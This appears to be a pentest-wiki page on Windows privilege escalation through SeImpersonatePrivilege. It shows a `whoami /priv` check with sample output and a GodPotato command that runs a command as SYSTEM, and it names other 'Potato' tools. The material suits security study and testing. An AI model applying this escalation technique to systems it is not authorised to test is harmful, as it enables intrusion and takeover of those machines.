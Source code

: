 ```yaml
---
description: Abusing Token for Privilege Escalation
---
```


# Token Abuse

## SeImpersonatePrivilege

This privilege, held by any process, allows the impersonation (but not creation) of any token, provided that a handle to it can be obtained. Generally, this token/privilege is owned by a Windows service account. You can abuse this privilege to gain NT AUTHORITY/SYSTEM access on Windows using various tools like Rogue-WinRM, RottenPotato, SweetPotato, PrintSpoofer, Juicy Potato, or the newest toolkit, **GodPotato**.

```powershell
whoami /user /priv

# Example output
USER INFORMATION
----------------

User Name                  SID     
========================== ========
nt authority\local service S-1-5-19


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

[**GodPotato**](https://github.com/BeichenDream/GodPotato) ftw!

```powershell
GodPotato.exe -cmd "cmd /c whoami /user /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi-2sRb46gem7azeW1asaORa6a-sF0DOHnyoXa3cV1cwEDgXBGWhyphenhyphen7bA6gZKo7r9Loyo2WFTYTICkpJ9mD9NkFK7sompsVjJjKMJHdaO_6xzbg1fFMJBokD59TpftFgrJLz4jShC0trppiQnf7YiQ-grYiQpCeaz4J7SRPawg9j_1a8OqhQUHx8I7Pjpc0/s1201/godpotato-PE.png" alt=""><figcaption><p>GodPotato</p></figcaption></figure>
